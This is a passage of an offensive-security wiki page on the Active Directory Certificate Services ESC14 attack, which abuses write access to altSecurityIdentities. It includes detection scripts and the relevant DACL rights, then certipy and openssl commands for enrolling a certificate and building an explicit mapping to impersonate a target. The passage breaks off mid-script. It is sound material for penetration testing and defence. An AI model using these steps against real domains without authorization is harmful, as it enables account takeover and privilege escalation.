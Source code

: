 
    # Get ACEs of all AD objects under domain root by piping them into Get-WriteAltSecIDACEs
    Get-ADObject -Filter * -SearchBase "dc=domain,dc=local" | Get-WriteAltSecIDACEs
    ```
It is also possible to view the necessary DACL in BloodHound.

Detection of weak explicit mapping can be done like this :
=== "UNIX-like"
    From UNIX-like systems, with the [GetWeakExplicitMappings.py](https://github.com/3C4D/GetWeakExplicitMappings/blob/main/GetWeakExplicitMappings.py) script (Python).
    ```bash
    python3 GetWeakExplicitMappings.py -dc-host $DC_HOST -u $USERNAME -p $PASSWORD -domain $DOMAIN
    ```
=== "Windows"
    From a Windows machine, with the [Get-AltSecIDMapping.ps1](https://github.com/JonasBK/Powershell/blob/master/Get-AltSecIDMapping.ps1) script (PowerShell).
    ```bash
    Get-AltSecIDMapping -SearchBase "CN=Users,DC=domain,DC=local"
    ```
#### ESC14 A: Write access on altSecurityIdentities
The attacker has write access to the `altSecurityIdentities` attribute of the target. He can enrol on a certificate as the victim and create an explicit mapping for the target by modifying its `altSecurityIdentities` attribute and pointing it to the obtained certificate. The certificate can then be used to authenticate as the target.

Write rights to altSecurityIdentities can be obtained via the following DACL:

- Write property `altSecurityIdentities`
- Write property `Public-Information`
- Write property (all)
- `WriteDACL`
- `WriteOwner`
- `GenericWrite`
- `GenericAll`
- `Owner`

For PKINIT authentication, no additional requirements are necessary. For Schannel authentication, the `CertificateMappingMethods` key must be set to 0x8 (default value).
=== "UNIX-like"
    From UNIX-like systems, with certipy, it is possible to enroll on a certificate template.
    ```bash
    certipy req -u $TARGET@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
    ```
    Then, using certipy, we can get the certificate out of the pfx file.
    ```bash
    certipy cert -pfx target.pfx -nokey -out "target.crt"
    ```
    openssl can be used to extract the "Issuer" and the "Serial Number" value out of the certificate.
    ```bash
    openssl x509 -in target.crt -noout -text
    ```
    With the following python script (inspired from this [script](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1)), we can use the previously dumped values to craft a X509IssuerSerialNumber mapping string.
    ```bash
    issuer = ",".join("<TARGET_DN>".split(",")[::-1])
    serial = "".join("<SERIAL_NUMBER>".split(":")[::-1])
